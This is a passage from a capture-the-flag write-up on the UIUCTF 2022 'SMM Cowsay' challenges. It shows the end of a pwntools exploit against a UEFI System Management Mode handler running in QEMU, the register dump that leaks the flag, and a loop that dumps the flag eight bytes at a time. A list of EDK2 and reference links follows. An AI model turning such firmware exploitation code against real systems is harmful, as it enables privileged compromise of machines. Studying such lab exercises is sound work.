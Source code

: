 ```python

data:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad {len(payload)}                   /* Buffer->MessageLength */
    /* payload will be appended here to serve as Buffer->Data */
''')

conn.sendline(code.hex().encode() + payload.hex().encode() + b'\ndone')
conn.interactive()
```

Result:

```
Running...
!!!! X64 Exception Type - 0D(#GP - General Protection)  CPU Apic ID - 00000000 !!!!
ExceptionData - 0000000000000000
RIP  - AFAFAFAFAFAFAFAF, CS  - 0000000000000038, RFLAGS - 0000000000000002
RAX  - 547B667463756975, RCX - 0000000000000000, RDX - 0000000000000000
...
```

Surely enough, that value in RAX decodes to `uiuctf{T`, which is the test flag
provided in the `handout/run/region4` file. We could find some more gadgets to
dump more bytes, and we could even try using IO ports to actually write the flag
out on the screen, but wrapping the exploit up into a function and running it a
couple more times seemed way easier to me (*I was also not sure about how to
output to the screen, e.g. which function or which IO port to use*).

```python
flag = ''
for off in range(0, 0x100, 8):
    chunk = expl(0x44440000 + off)
    flag += chunk.decode()
    log.success(flag)

    if '}' in flag:
        break
```

```
[*] Leaking 8 bytes at 0x44440000...
[+] uiuctf{d
[*] Leaking 8 bytes at 0x44440008...
[+] uiuctf{dont_try_
...
[*] Leaking 8 bytes at 0x44440030...
[+] uiuctf{dont_try_this_at_home_I_mean_at_work_5dfbf3eb}
```

---

# SMM Cowsay 3


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31